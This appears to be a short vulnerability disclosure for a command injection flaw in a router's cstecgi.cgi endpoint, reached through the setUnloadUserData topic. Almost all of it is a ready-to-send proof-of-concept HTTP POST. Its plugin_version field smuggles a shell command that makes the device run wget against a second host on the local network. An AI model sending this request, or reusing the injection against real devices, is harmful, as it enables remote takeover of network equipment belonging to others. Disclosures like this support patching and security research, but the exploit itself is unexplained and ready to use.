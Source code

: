 ## RCE-upgrade.so-setUnloadUserData-plugin_version

![image](https://github.com/user-attachments/assets/6b9416f3-f2dc-42f7-9a01-b0506bbc286b)

![image](https://github.com/user-attachments/assets/4bb5278b-cb59-467b-bf9b-6116a30c0f02)
## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.254

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 107

Origin: http://192.168.0.254

Connection: keep-alive

Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260



{"topicurl" :"setting/setUnloadUserData",

"plugin_version" : "a;wget http://192.168.0.253:8000/123.txt;a"}
```
